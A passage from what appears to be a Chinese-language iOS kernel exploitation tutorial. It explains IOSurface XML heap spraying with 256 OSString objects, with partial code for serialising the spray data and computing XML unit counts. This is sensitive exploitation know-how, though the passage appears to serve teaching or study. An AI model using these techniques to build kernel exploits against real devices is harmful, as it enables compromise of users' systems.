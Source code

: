 ```objc
    // data as well as the slot we need to set our key.
    uint32_t **xml_data = malloc(current_array_length * sizeof(*xml_data));
    assert(xml_data != NULL);
    uint32_t *key;
    
    // 7. 构造 XML
    size_t xml_size = serialize_IOSurface_data_array(args->xml,
    		current_array_length, data_size, xml_data, &key);
    assert(xml_size == xml_units * sizeof(args->xml[0]));
    // ...
```

上述构造过程较为复杂，总共有 7 个关键步骤，在上面的代码中已通过注释的方式说明，读者可先粗略了解一下整个过程，接下来我们详细分析这些过程。

### XML Spraying 原理
在上述步骤 7 中我们构造了一个装有 256 个 OSString 的 OSArray，其中 OSString 为序列化的 Spraying Data，通过 IOSurfaceRootClient 将 XML 送入内核缓冲区后，内核会为这些 OSString 分配空间，而 OSString 就是我们需要喷射的数据，因此通过这种方式成功的实现了任意数据的 Heap Spraying。

### 关键数据计算
用于 IOSurface 传输的 XML 对象的每个结点都可以用一个 uint32 表示，称为 XML Unit，由于 IOSurface 调用必须指定输入的长度，因此计算好每一轮 Spraying 使用的 XML 大小至关重要。

在步骤 3 中，我们计算了 Spraying Data 对应的 XML Units 数量：
```c
// 3. 计算 Spraying Data 所需要的 XML 结点数
size_t xml_units_per_data = xml_units_for_data_size(data_size);

/*
 * xml_units_for_data_size
 *
 * Description:
 * 	Return the number of XML units needed to store the given size of data in an OSString.
 */
static size_t
xml_units_for_data_size(size_t data_size) {
    return ((data_size - 1) + sizeof(uint32_t) - 1) / sizeof(uint32_t);
}
```

由于序列化数据在内核中被表示为 OSString，所以我们需要考虑结尾的 `\0`，此时只能牺牲数据的最后一位作为 `\0`，因此实际计算的大小为 `size - 1`，接下来的公式就转化为 `(actual_size + n - 1) / n`，这是典型的 Ceiling 函数，即对 actual_size 除以 4(XML Unit Size) 向上取整，最后得到的是每个 Spraying Data 对应的 OSString 所占据的 XML Units Count，并存储在 `xml_units_per_data` 中。

随后在步骤 4 中，我们基于 `xml_units_per_data` 计算了 XML Units Count 的总数：
```c
size_t xml_units = 1 + 1 + 1 + (1 + xml_units_per_data) * current_array_length + 1 + 1 + 1;
```

其中 `(1 + xml_units_per_data) * current_array_length` 不难理解，即将 OSString Header + Data 结构重复 `current_array_length` 次后的 Units Count，前后的 3 个 1 均表示额外的描述性 XML Units。

最后在步骤 6 中，我们准备了一个 XML Units 指针数组，用于指向 XML 中待填充 OSString 的 `current_array_length` 个区域的 Child Unit Header：
```c
uint32_t **xml_data = malloc(current_array_length * sizeof(*xml_data));
```
